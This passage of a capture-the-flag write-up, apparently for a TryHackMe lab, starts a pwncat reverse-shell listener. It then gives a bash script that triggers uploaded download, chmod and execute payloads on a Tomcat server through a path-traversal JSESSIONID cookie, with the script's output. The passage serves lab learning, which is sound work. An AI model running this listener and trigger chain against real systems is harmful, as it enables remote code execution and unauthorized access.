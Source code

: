 All our files have been uploaded, its time to start our listener, I'll use pwncat since I like the persistence stuff on this listener:

```bash
pwncat -l --self-inject /bin/bash:10.14.21.28:4444 4444
```

Now we need to trigger the shell, we can use curl once again to automate the process, time to automate it again:

```bash
#!/bin/bash

# Target base URL
TARGET_HOST="http://admin.certain-doom.thm:8080"

# Payload files (uploaded earlier)
FILES=("downloadFile" "chmodFile" "executeFile")

# Loop through each payload
for file in "${FILES[@]}"; do
    echo "[*] Triggering payload: $file"

    curl -s "$TARGET_HOST/reports/" \
        -H "Cookie: JSESSIONID=../../../../../../../../../usr/local/tomcat/temp/uploads/$file" \
        -o /tmp/"$file.response"

    # Optional: Check HTTP Status
    if grep -q "HTTP Status 500" /tmp/"$file.response"; then
        echo "[+] $file triggered, got HTTP 500 (likely executed)"
    else
        echo "[-] $file did not trigger as expected"
    fi

    echo
done
```

Time to execute the script:

```bash
./auto_trigger.sh
[*] Triggering payload: downloadFile
[+] downloadFile triggered, got HTTP 500 (likely executed)

[*] Triggering payload: chmodFile
[+] chmodFile triggered, got HTTP 500 (likely executed)

[*] Triggering payload: executeFile
[+] executeFile triggered, got HTTP 500 (likely executed)
```

If we check our python server and our listener, we can notice it worked:

![Pasted image 20250724132230.png](../../IMAGES/Pasted%20image%2020250724132230.png)
